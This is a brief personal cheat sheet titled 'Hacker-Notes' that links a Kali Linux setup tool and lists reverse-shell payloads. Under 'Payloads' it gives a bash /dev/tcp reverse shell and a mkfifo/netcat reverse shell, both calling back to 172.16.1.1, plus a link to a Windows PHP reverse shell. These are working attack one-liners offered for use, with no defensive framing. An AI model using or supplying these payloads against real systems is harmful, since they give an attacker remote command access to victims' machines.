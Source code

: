 # Hacker-Notes

PimpMyKali - https://github.com/Dewalt-arch/pimpmykali

Payloads - 

#!/bin/bash
bash -i >& /dev/tcp/172.16.1.1/443 0>&1

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.1.1 4434 >/tmp/f

Windows reverse shell .php - https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php
